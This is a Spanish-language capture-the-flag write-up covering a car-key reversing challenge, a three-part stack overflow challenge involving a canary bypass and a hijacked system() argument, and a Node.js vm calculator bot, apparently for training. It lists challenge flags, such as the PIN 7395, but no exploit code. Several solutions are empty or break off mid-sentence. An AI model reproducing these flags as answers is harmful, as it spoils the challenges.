



Flag: `flag{Fl4G_0cULtA-R3vErS1n}`

### T3SLA - Parte 2

**Info**

| Atributo | Valor |
|---|---|
| Descripción | Cuando la llave se comunica con el auto lo primero que hace es enviar una clave de 4 dígitos (que llegan a la función de chequeo como los primeros 4 parámetros).  ¿Cuáles son esos 4 dígitos correctos? <br> La flag es: flag{EncontrasteMiPin=PIN} Reemplazando PIN por los 4 dígitos correctos. <br> **NOTA: Para este reto deberás utilizar los mismo archivos del reto T3SLA** |
| Archivos | - |

**Solución**

Posteriormente en la misma función de `chequeo` se verifican el PIN 1 a 1 respecto los argumentos recibidos, completando así el PIN que se verifica.



Flag: `flag{EncontrasteMiPin=7395}`

### T3SLA - Parte 3

**Info**

| Atributo | Valor |
|---|---|
| Descripción | Ahora que conocemos el PIN, lo único que nos resta para poder abrir el auto es conocer el password que se envía junto a la clave de 4 dígitos. Esta password la lee la misma función de chequeo. La flag es la password. <br> ej.  flag{PASSWORD} <br> **NOTA: Para este reto deberás utilizar los mismo archivos del reto T3SLA** |
| Archivos | - |

**Solución**

Dándole seguimiento al código fuente obtenido, se puede ver que:


1. Se realiza una validación respeto al tamaño de la variable donde será almacenada la contraseña, validando que sea de 28 caracteres (0x1c).
2. Del valor que se pone se realiza un XOR de cada uno de sus elementos.
3. Se realiza otra validación en memoria si

Flag: `flag{}`

## Pwning

### BabyPWN

**Info**

| Atributo | Valor |
|---|---|
| Descripción | Este es otro reto de PWN más, pero no te apures te estaré guiando :) <br> El primer paso para conseguir RCE es buscar algún bug de corrupción de memoria que nos permita tomar control del flujo de ejecución. <br> ¡Suerte! |
| Archivos | [pwn_babypwn_chall](https://github.com/srrequiem/CTF-Challenge-Compilation/tree/main/20220922_ipn_core_2022/files/pwn_babypwn_chall) [pwn_babypwn_chall.c](https://github.com/srrequiem/CTF-Challenge-Compilation/tree/main/20220922_ipn_core_2022/files/pwn_babypwn_chall.c) |

**Solución**

### BabyPWN - Parte 2

**Info**

| Atributo | Valor |
|---|---|
| Descripción | Para mala suerte la función cuenta con un mecanismo de seguridad conocido como stack canary que es una variable en la pila con un valor que si se modifica entonces el programa sabe que esta bajo un posible ataque. La buena noticia es que este stack canary tiene siempre el mismo valor.  Esta vez, cuando hagas el overflow asegúrate de escribir sobre el stack canary el valor correcto. <br> **NOTA: Para este reto deberás utilizar los mismo archivos del reto BabyPWN** |
| Archivos | - |

**Solución**

### BabyPWN - Parte 3

**Info**

| Atributo | Valor |
|---|---|
| Descripción | Como último paso necesitamos controlar ese flujo de ejecución;  por suerte, el programa imprime la cadena que le dimos usando la función system y como parámetro le pasa una cadena que almacena... ¡¡¡EN LA PILA!!!,  por lo que con nuestro overflow podremos modificar ese argumento para ejecutar system con lo que nosotros queramos ¡Suerte! :) <br> **NOTA: Para este reto deberás utilizar los mismo archivos del reto BabyPWN** |
| Archivos | - |

**Solución**

## Misc

### Bot Calculadora

**Info**

| Atributo | Valor |
|---|---|
| Descripción | Acabamos de descubrir e implementar una característica de Node.js del módulo vm y creamos una calculadora para usarlo, échale un lente crack. <br> ***NOTA: ÉSTE RETO TIENE PUNTAJE DINÁMICO,  MIENTRAS MÁS PERSONAS LO RESUELVAN EL PUNTAJE IRÁ DISMINUYENDO*** <br> https://t.me/node_vm_bot |
| Archivos | [misc_bot_bot_calculadora.zip](https://github.com/srrequiem/CTF-Challenge-Compilation/tree/main/20220922_ipn_core_2022/files/misc_bot_bot_calculadora.zip) |

**Solución**